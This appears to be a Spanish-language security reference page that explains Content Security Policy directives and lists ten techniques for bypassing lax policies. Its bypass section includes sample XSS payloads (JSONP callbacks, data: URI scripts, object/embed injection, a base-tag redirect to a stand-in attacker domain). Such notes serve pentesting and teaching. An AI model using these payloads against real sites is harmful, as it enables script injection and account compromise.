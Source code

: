 **Ejemplo de Política CSP:** `default-src 'self'; script-src 'self' https://apis.google.com; object-src 'none'; style-src 'self' 'unsafe-inline'; img-src 'self' data:;`

**Directivas Comunes:**

- `default-src`: Política por defecto para la mayoría de las directivas.
- `script-src`: Define fuentes válidas para JavaScript.
- `style-src`: Define fuentes válidas para CSS.
- `img-src`: Define fuentes válidas para imágenes.
- `connect-src`: Define a qué orígenes se puede conectar (XHR, WebSockets, EventSource).
- `frame-src`: Define orígenes válidos para iframes.
- `object-src`: Define orígenes válidos para `<object>`, `<embed>`, `<applet>`. (Peligroso si permite `*` o `data:`).
- `base-uri`: Restringe las URLs que pueden usarse en el elemento `<base>`.
- `'self'`: Permite cargar recursos del mismo origen.
- `'unsafe-inline'`: Permite JavaScript inline (event handlers, `<script>...</script>`) y CSS inline.
- `'unsafe-eval'`: Permite `eval()` y funciones similares.
- `nonce-{random}`: Permite scripts inline o estilos que tengan el atributo `nonce` con el valor aleatorio correcto.
- `hash-{algo}-{base64}`: Permite scripts inline o estilos cuyo hash coincida.

**Técnicas Comunes de Bypass de CSP (si la política es laxa):**

1. **`'unsafe-inline'` en `script-src`:** Permite XSS tradicional inline.
2. **`'unsafe-eval'` en `script-src`:** Permite el uso de `eval()`, `setTimeout("string")`, `JSON.parse()` sobre datos controlados, etc.
3. **Wildcards (`*`) o Dominios Demasiado Permisivos en `script-src`:**
   - Si `script-src *;` está presente, se puede cargar JS desde cualquier dominio.
   - Si `script-src https://*.cdn-seguro.com;` y el CDN permite alojar contenido de usuario o tiene un subdominio vulnerable.
   - Si `script-src https://algun-dominio-permitido.com;` y ese dominio tiene una vulnerabilidad de JSONP o contenido subido por usuarios que se pueda incluir como JS.
     - **JSONP Endpoints:** `https://dominio-permitido.com/api/jsonp?callback=alert(document.domain)//` -> `<script src="https://dominio-permitido.com/api/jsonp?callback=alert(document.domain)//"></script>`
4. **`data:` URI en `script-src`:**
   - Si `script-src data:;`, se pueden usar payloads como: `<script src="data:text/javascript,alert(1)"></script>`
5. **Subida de Archivos a Dominios Permitidos:**
   - Si `script-src 'self';` o `script-src https://misitio.com;` y se puede subir un archivo `.js` (o un archivo con extensión de imagen pero contenido JS si el `Content-Type` es correcto o se puede manipular) al mismo dominio.
   - Payload: `<script src="/uploads/payload.js"></script>`
6. **Falta de `object-src` o `default-src` (o si son muy permisivos):**
   - Se puede intentar inyectar `<object data="data:text/html,<script>alert(1)</script>">` o `<embed src="data:text/html,<script>alert(1)</script>">`.
7. **Falta de `base-uri`:**
   - Si no está definida o es laxa, se puede inyectar `<base href="https://atacante.com/">`. Las URLs relativas en la página (incluyendo scripts) ahora se cargarán desde el dominio del atacante (siempre que `script-src` lo permita).
8. **Endpoints que Reflejan JS (AngularJS, etc.):**
   - Algunas librerías JS (como versiones antiguas de AngularJS) pueden ejecutar JS desde el DOM en contextos específicos, incluso con CSPs restrictivas, si `unsafe-eval` no está presente pero se permite `self`.
9. **Service Workers:**
   - Si se puede registrar un Service Worker desde un dominio permitido en `script-src`, este puede interceptar peticiones y ejecutar código.
10. **Errores de Configuración de Nonce/Hash:**
    - Si el `nonce` es predecible, reutilizado o se filtra en la página.
    - Si se puede inyectar un script existente en la página que tenga un hash permitido (raro).
